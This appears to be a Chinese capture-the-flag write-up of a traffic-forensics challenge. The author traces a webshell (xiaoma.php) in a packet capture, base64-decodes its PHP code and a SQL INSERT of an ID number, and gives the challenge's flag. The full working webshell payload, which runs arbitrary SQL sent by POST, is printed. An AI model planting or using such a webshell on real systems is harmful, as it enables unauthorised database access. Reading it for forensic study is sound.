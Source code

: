 ## 网络数据分析溯源(新增用户的身份证号)  ##
题目要求
```
某公司运维人员发现服务器上存在webshell,发现有人利用WebShell操作了数据库，请找到新增的用户的身份证号。
```

![](https://s2.ax1x.com/2019/04/24/EVXjO0.md.png)

## 解题思路  ##
打开压缩包搜索过滤表达式:http.request 搜关键字:php
![](https://s2.ax1x.com/2019/04/24/EVj0pj.md.png)

发现有个叫xiaoma.php的路径，有几个这样的请求
![](https://s2.ax1x.com/2019/04/24/EVvUDx.md.png)

逐个看完发现，webshell是分几次来上传拼接的。base64解码后得到完成webshell代码
```php
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$m=get_magic_quotes_gpc();$hst=$m?stripslashes($_POST["z1"]):$_POST["z1"];$usr=$m?stripslashes($_POST["z2"]):$_POST["z2"];$pwd=$m?stripslashes($_POST["z3"]):$_POST["z3"];$dbn=$m?stripslashes($_POST["z4"]):$_POST["z4"];$sql=base64_decode($_POST["z5"]);$T=@mysql_connect($hst,$usr,$pwd);@mysql_query("SET NAMES utf8");@mysql_select_db($dbn);$q=@mysql_query($sql);echo("Result\t|\t\r\n");echo($q?"Execute Successfully!":mysql_error());echo("\t|\t\r\n");@mysql_close($T);;echo("|<-");die();
```
分析代码后发现，这是一个连接mysql的php，在最后一个包发现。z5请求变了请求的base64
解码后发现是一条mysql语句
```mysql
aW5zZXJ0IGludG8gY2FyZGlkICh1c2VyaWQpIHZhbHVlcyAoIjMyMDEwMjE5OTAwMzA3OTU3MiIp

insert into cardid (userid) values ("320102199003079572") #向cardid表插入一个新的身份证号
```

提交这个身份证号，得到key
```
 mozhe151e2e7cc8c724d8cc2abae0fd3
```
